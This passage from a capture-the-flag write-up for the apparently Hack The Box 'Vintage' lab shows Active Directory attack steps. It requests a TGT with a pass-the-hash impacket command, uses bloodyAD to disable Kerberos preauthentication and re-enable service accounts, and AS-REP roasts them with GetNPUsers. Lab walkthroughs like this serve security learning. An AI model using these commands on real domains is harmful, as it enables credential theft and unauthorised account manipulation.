 After joining the group, gmsa01 needs to obtain tgt again, the command is the same as before. Check what the SERVICEMANAGERS group can do, and finally there is an object of First Degree Object Control.
![alt text](assets/image-7.png)

Using the gmsa01 permissions we can set the 3 accounts that can be controlled to not require PREAUTH, so we can ASREPROAST them. 
```sh
python bloodyAD.py --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_ARK -f DONT_REQ_PREAUTH
```
This didnt work properly so I used both sides of the NTLM hash to request the TGT, like the following;
```sh
impacket-getTGT  -dc-ip 10.129.231.205 vintage.htb/GMSA01$ -hashes aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53 
```

```sh
export KRB5CCNAME=GMSA01\$.ccache  
```

make the users asreproastable: 
```sh
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.129.231.205 -k add uac SVC_ARK -f DONT_REQ_PREAUTH 
```
```sh
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.129.231.205 -k add uac SVC_LDAP -f DONT_REQ_PREAUTH 
```
```sh
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.129.231.205 -k add uac SVC_SQL -f DONT_REQ_PREAUTH`
```

Enable Accounts:
```sh
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_ARK -f ACCOUNTDISABLE

[-] ['ACCOUNTDISABLE'] property flags removed from SVC_ARKs userAccountControl

bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_LDAP -f ACCOUNTDISABLE

[-] ['ACCOUNTDISABLE'] property flags removed from SVC_LDAPs userAccountControl

bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE

[-] ['ACCOUNTDISABLE'] property flags removed from SVC_SQL's userAccountControl
```


Then I used GetNPUsers.py to get the asreproastable hashes:
```sh
GetNPUsers.py vintage.htb/ -request -outputfile np.txt -format hashcat -usersfile /home/hacker/htb/vintage/users.txt
```
For some reason thesql hash didn't work so I skipped this step... 
